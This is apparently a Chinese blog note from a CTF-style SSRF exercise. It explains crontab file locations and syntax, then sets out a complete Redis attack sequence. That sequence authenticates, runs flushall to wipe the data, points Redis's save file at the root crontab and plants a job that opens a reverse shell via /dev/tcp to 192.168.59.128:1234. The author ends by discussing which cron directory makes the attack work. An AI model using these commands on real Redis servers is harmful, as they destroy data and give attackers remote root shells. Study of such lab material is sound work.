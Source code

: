 `https://blog.51cto.com/u_552627/1909067`

```
1 、/etc/crontab 只有root用户可以使用，使用时需root权限，而且必须指定运行用户，才会执行

       */1  *  *  *  *  *  root /usr/sbin/ntpdate s1a.time.edu.cn &> /dev/null    

2 、/var/spool/cron/$USER 所有用户都可以使用，可以使用crontab -u username -e命令来直接编辑这个文件。

        */1  *  *  *  *  *  /usr/sbin/ntpdate s1a.time.edu.cn &> /dev/null  

3、*     *    *     *    *

    分   时   天   月  周

4、特殊符号

    /   每

    -   连续的时间

    ， 离散时间

    *   所有都匹配
```

`linux`定时任务！

`https://segmentfault.com/a/1190000023186565`

![image-20210924110426488](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924110426.png)



后来经常测试发现！ 定时任务有问题！

换一个也不行！

```
*/1 * * * * bash -c "sh -i >& /dev/tcp/192.168.59.128/1234 0>&1"
```

```
auth welcometowangdingbeissrfme6379
flushall
config set dir /var/spool/cron/crontabs/
config set dbfilename root
set x "\n*/1 * * * * bash -c \"sh -i >& /dev/tcp/192.168.59.128/1234 0>&1\"\n"
save
quit
```

再我测试过程中还发现！`config set dir /var/spool/cron/`

`dir`应该为： `/var/spool/cron/crontabs/`

不然 `crontab -l` 是什么都没有的！ 但是我看大佬们的都是这个而且网上的**/var/spool/cron/$USER**  也是这个！   🐱‍👓🐱‍👓🐱‍👓  这里不上很清楚！
